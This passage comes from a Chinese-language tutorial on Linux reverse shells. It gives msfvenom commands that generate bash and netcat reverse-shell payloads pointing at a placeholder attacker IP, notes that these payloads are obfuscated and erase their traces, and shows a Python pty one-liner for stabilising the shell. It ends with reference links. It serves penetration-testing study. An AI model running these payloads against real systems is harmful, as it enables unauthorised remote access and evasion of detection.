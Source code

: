 一般用法是用`msfvenom`生成反弹shell，在攻击者机器上开监听，复制到靶机命令行或`webshell`执行反弹shell并等待shell连上攻击者机器。为了方便，后面举例时把`kali`同时作为靶机。

举例1：生成`bash`反弹shell

```bash
msfvenom -p cmd/unix/reverse_bash lhost=[ATTACKER-IP] lport=10000 R
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-17.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-16.png)

举例2：生成`nc`反弹shell

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[ATTACKER-IP] lport=10000 R
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-18.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-19.png)

可以看到，`msfvenom`生成的反弹shell代码经过了不同程度的混淆，也更完善更隐蔽，会在反弹的shell进程结束后自行清理文件痕迹。

### 0x0B 稳定shell

有时反弹出来的shell会有各种问题，如不稳定，环境变量缺失等。此时可以在新的shell里获取一个标准的shell：

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

### 0x0C 参考

- [linux下反弹shell的几种方法](http://blog.csdn.net/u012985855/article/details/64117187?utm_source=itdadao&utm_medium=referral)
- [Linux下反弹shell笔记](https://www.cnblogs.com/deen-/p/7237327.html)
- [关于Linux的反弹shell命令的解析](http://os.51cto.com/art/201709/550457.htm)
- [Linux下反弹shell方法](https://www.waitalone.cn/linux-shell-rebound-under-way.html)
- [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse Shell with Bash](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [【技术分享】linux各种一句话反弹shell总结](http://bobao.360.cn/learning/detail/4551.html)
- man bash